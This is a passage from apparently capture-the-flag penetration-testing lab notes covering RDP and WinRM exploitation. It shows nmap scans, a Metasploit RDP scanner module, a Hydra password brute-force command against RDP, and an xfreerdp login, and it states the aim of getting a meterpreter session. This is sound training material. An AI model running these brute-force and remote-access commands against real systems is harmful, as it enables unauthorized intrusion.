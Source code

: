 ```shell
dir
type flag.txt 
```

### 1.3. Exploiting RDP

**[RDP](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol)** could be running on another port, not just the default which is 3389.

**Objective**: To fingerprint the running RDP service, then exploit the vulnerability using the appropriate method and retrieve the flag!

**Dictionaries to use:**
- /usr/share/metasploit-framework/data/wordlists/common_users.txt
- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

The best **tools** for this lab are: Nmap, searchsploit, msfconsole, xfreerdp

```shell
nmap -sV -p- <target_IP> # Scan with Nmap
search rdp_scanner
use auxiliary/scanner/rdp/rdp_scanner
# This module attempts to connect to the specified Remote Desktop Protocol port and determines if it speaks RDP.

# For the brute force attack we can use Hydra. Pay attention to the TASK as this may impact machine target performance or DOS it.
hydra
-L /usr/share/metasploit-framework/data/wordlists/common_users.txt 
-P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
rdp://<target_IP>:<port>

# xfreerdp is an open-source command-line client for connecting to Remote Desktop Protocol (RDP) servers on Linux, allowing users to access and control remote Windows desktops.
xfreerdp /u:<username> /p:<password> /v:<target_IP>:<port>
```

### 1.4. WinRM: Exploitation with Metasploit

**[Windows Remote Management]**(https://en.wikipedia.org/wiki/Windows_Remote_Management) (WinRM) is a Microsoft protocol that allows administrators to remotely manage and execute scripts on Windows-based computers. It uses the WS-Management protocol to enable secure communication between machines for tasks such as configuration, monitoring, and automation. However is not configured to run by default and needs to be explicitly configured and enabled in order for it to work and in order for you to utilize it. 

**Objective**: Exploit the WinRM service to get a meterpreter on the target and retrieve the flag!

```shell
# Nmap scan
nmap -sV -p- <target_IP>
# Nmap or rather windows system don't explicitely have a banner telling me that this is a WinRM, but in this case we do know that WinRM is running on this port (5985). We can confirm this with the use of CackMapExec
```
